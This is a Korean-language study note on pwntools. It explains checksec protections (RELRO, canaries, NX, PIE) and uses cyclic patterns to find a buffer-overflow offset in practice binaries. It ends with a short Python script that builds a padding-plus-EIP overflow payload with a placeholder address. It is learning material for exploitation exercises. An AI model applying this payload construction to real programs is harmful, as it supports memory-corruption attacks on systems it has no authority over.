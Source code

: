 pwntools
#
`checksec`
```
checksec <dir>
```
![image](https://user-images.githubusercontent.com/61821641/150648618-2aae3665-aa3a-4249-9486-c76f94e91120.png)

Arch
```
Archetecture
```

[RELRO](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro)
```
Relocation Read-Only(재배치 읽기 전용)
링커가 기능을 해결한 후 전역 오프셋 테이블(GOT)을 읽기 전용으로 만듭니다. GOT는 ret-to-libc 공격과 같은 기술에 중요합니다.
```
[Stack canaries](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)
```
스택 오버플로를 감지하기 위해 스택 뒤에 배치되는 토큰입니다. 이들은 석탄 광부가 유독 가스를 감지하기 위해 광산으로 가져온 새의 이름을 따서 명명되었습니다. 카나리아는 연기에 민감했기 때문에 그들이 죽으면 광부들은 대피해야 한다는 것을 알았습니다. 덜 병적이지만 스택 카나리아는 메모리(프로그램 변수가 저장되는 곳)의 스택 옆에 있으며 스택 오버플로가 있으면 카나리아가 손상됩니다. 이렇게 하면 프로그램이 버퍼 오버플로를 감지하고 종료할 수 있습니다.
```
![image](https://user-images.githubusercontent.com/61821641/150649213-4dd7ebd3-a83c-400f-8e18-724e8d5f5e29.png)

버퍼오버플로우가 발생했을 때 카나리가 있는 intro2pwn1에선 `stack smashing`이 카나리가 없는 intro2pwn2에선 `Segmentation fault`가 발생한걸 볼 수 있다.

[NX](https://en.wikipedia.org/wiki/Executable_space_protection)
```
non-executable(실행 불가능)
이것이 활성화되면 메모리 세그먼트는 쓰기 가능하거나 실행 가능하지만 둘 다일 수는 없습니다. 이렇게 하면 쓰기 가능한 세그먼트의 무언가를 실행할 수 없기 때문에 잠재적인 공격자가 자신의 악성 코드(셸코드)를 프로그램에 삽입하는 것을 방지할 수 있습니다. 취약한 바이너리에서 읽고, 쓰고, 실행할 수 있는 세그먼트가 있음을 나타내는 추가 라인 RWX 를 보셨을 것 입니다.
```
[PIE](https://access.redhat.com/blogs/766093/posts/1975793)
```
Position Independent Executable
프로그램 종속성을 임의의 위치에 로드하므로 메모리 레이아웃에 의존하는 공격을 수행하기가 더 어렵습니다. 
```
reference
- [guide](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)
#
`cyclic`
```
r < alphabet
```
![image](https://user-images.githubusercontent.com/61821641/150650742-00fba0f6-1fe9-42ba-8d4a-b470c9a68d21.png)

위처럼 버퍼오버플로우를 일으킬 만큼 충분한 크기의 파일을 생성
```
cyclic 100 > pattern 
```
```
r < pattern
```
![image](https://user-images.githubusercontent.com/61821641/150651346-70ceabd6-9beb-4fd7-ab0c-ede3d4cd2180.png)

`jaaa`에서 오버플로우

exploit 생성
```
from pwn import *

# padding = cyclic(100)
# eip를 채울 수 있도록 패딩이 'jaaa' 바로 앞에서 중지되어야 합니다. 
padding = cyclic(cyclic_find('jaaa'))    
# 패딩이 올바른지 확인하기 위해 0xdeadbeef와 같은 더미 값으로 채워야 합니다.
# 컴퓨터가 "0xdeadbeef" 문자열을 ASCII로 해석하기 때문에 Pwntools는 p32() 함수(64비트 프로그램의 경우 p64)를 사용하여 이를 수행하는 쉬운 방법을 제공합니다. struct.pack() 함수와 유사합니다. 
eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)
```

